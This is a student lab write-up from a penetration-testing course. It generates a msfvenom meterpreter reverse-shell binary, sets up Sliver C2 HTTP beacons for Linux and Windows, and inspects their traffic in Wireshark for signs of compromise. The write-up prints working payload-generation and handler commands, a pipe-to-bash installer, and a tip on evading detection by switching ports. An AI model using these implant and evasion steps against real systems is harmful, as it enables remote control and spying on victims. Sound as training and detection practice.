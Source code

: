# Shells

## a. Snif venom

In this one I will try to use Wireshark to snif out a msfvenon reverse shell tcp malware on my local machine. 

To make things easier, I will disable any internet access so theres less stuff going on in Wireshark. Pinging localhost first to make sure we are listening to the right interface: 

<img src="h6.4.png" alt=img/>

Great, the pings are being listened to, now we can do our exploit. Also making sure we arent connected to the internet.

<img src="h6.1.png" alt=img/>

I will now start my msfconsole and run the msfvenom binary which I've created in my previous homework assignemnt h5 using 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o reverse_shell.elf`

so I have the reverse.shell binary still and I will use it for this exercise. Let's open up msfconsole

<img src="h6.2.png" alt=img/>

`msfconsole`

`use exploit/multi/handler`

`set payload linux/x86/meterpreter/reverse_tcp`

`set LHOST localhost`

`set LPORT 4444`

<img src="h6.3.png" alt=img/>

Now on the other terminal we will run the binary of the msfvenon malware using `./reverse_shell.elf`

When we look at wireshark, we can immediately see a bunch of packets being sent over the IP of 127.0.0.1 on port 4444 and 37256

<img src="h6.5.png" alt=img/>

This kind of traffic would seem unusual because it's using port 4444 which is often associated with Metasploit and also it's a connection that's constantly listening with a lot of consistent traffic. That could indicate a reverse shell or some compromised service is listening.

We could mask this by switching to another more obscure or unknown port or even HTTP 80 port.



## b. Sliver HTTP

So in this one we want to make a sliver implant that communicates over HTTP.

First we need to install sliver using `curl https://sliver.sh/install|sudo bash`

Then we will start the sliver service `systemctl start sliver`

Now we will use sliver with `sliver`

<img src="h6.6.png" alt=img/>

Now we can create the implant 
`generate beacon --http <your_server_ip> --os <target_os> --arch <target_arch>`

My command for my own linux host
`generate beacon --http 127.0.0.1 --os linux --arch 386`

`http` can also be some other like `mtls` or `dns`
`--os` for operating system

`--arch` for CPU architecture whether 64 bit or 32 bit

We should have some sort of executable that we can run. 

<img src="h6.7.png" alt=img/>

Now we just need to start http listener with `http` in sliver and `jobs` to inspect it 

<img src="h6.8.png" alt=img/>

Now we just run the executable in linux and we will get a beacon session. 

<img src="h6.9.png" alt=img/>

We can `use <beacon id>` to interact with it and execute commands

## c. Sliver Wireshark Inspect

<img src="h6.10.png" alt=img/>

On wireshark, we can see a lot of HTTP traffic on port 80 and consistent 86 byte packets being sent over the network

<img src="h6.11.png" alt=img/>
When we do `use <beacon_id>` and interact with the beacon we get even more traffic

This is suspicious because it's repeated TLS data with consistent size

TCP Keep-Alive packets and TCP Dup ACK events shows active TCP connection

Port 31337 is a common port for backdoors

POST/authenticate/auth/login.php HTTP requests when you aren't really using any website


## d. Changing active connection type in Sliver?


## e. Screensaver in sliver

You can save screenshot in sliver with `screenshot` while using an active beacon

<img src="h6.12.png" alt=img/>

I have an issue where sliver makes a task but it takes forever for it to complete

<img src="h6.13.png" alt=img/>

This was run on my windows machine and the result was saved to the tmp folder


## f. Sliver binary for windows

Let's make a sliver binary for windows: 
`generate beacon --http 192.168.150.6 --os windows --arch 64`

Turn on `http`

<img src="h6.14.png" alt=img/>

I will execute it on windows now through a shared drive, and run the exe: 

<img src="h6.15.png" alt=img/>

It works

## g. Bundling Sliver with another executable




References:

https://terokarvinen.com/tunkeutumistestaus/

https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture/#:~:text=The%20ACK%20indicates%20that%20a,also%20transmitting%20some%20more%20data.

https://seamlessintelligence.com.au/sliver_1.html

https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2/2f6500892f78dbaae0bd4d41fc72e44aef6759ee

https://www.linkedin.com/pulse/sliver-c2-implementation-hands-on-approach-adegbola-adeleye-0gl6e/

https://barrymalone.medium.com/sliver-an-awesome-c2-framework-c0257f2f52e4

https://dominicbreuker.com/post/learning_sliver_c2_02_beacons_and_sessions/